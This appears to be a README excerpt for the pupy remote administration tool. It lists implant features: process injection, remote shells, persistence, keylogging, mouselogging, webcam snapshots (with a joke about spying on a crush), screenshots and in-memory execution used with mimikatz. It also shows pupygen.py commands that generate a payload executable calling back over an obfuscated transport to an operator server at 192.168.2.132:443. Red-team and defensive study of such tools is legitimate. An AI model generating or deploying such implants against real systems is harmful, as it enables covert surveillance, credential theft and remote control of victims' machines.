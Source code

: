 ## Implemented Modules
- migrate
  - inter process architecture injection also works (x86->x64 and x64->x86)
- command execution
- interactive shell (cmd.exe, /bin/sh, /bin/bash, ...)
	- tty allocation is well supported on target running a unix system. Just looks like a ssh shell
- interactive python shell
- download
- upload
- persistence
- screenshot
- webcam snapshot
	- ~~to spy on your crush~~
- in memory execution of PE exe both x86 and x64!
	- works very well with [mimitakz](https://github.com/gentilkiwi/mimikatz) :-)
- socks5 proxy
- local port forwarding
- shellcode exec (thanks to @byt3bl33d3r)
- keylogger
	- monitor keys and the titles of the windows the text is typed into, plus the clipboard! (thanks @golind for the updates)
- mouselogger:
	- takes small screenshots around the mouse at each click and send them back to the server (thanks @golind)

##Quick start
###Installation
```bash
pip install rpyc
pip install pefile 
pip install pycrypto 
```
####Troubleshooting
If you have some issues with rpyc while running the server on windows, take a look at issue #25, @deathfantasy made a fix 

### Generate/run a payload
In these examples the server is running on a linux host (tested on kali linux) and its IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
#### for Windows
```bash
$ ./pupygen.py auto_proxy -h
usage: auto_proxy [-h] --host <host:port>
                  [--transport {obfs3,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit}]
				                    ...
$ ./pupygen.py -t exe_x86 auto_proxy --transport tcp_ssl --host 192.168.2.132:443
binary generated with config :
OUTPUT_PATH = ~/pupy/pupyx86.exe
LAUNCHER = 'auto_proxy'
LAUNCHER_ARGS = ['--transport', 'tcp_ssl', '--host', '192.168.2.132:443']
OFFLINE_SCRIPT = None

									
```
you can also:
- use another launcher (currently simple or auto_proxy)
- use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means
- customize the transport used by supplying it with --transport

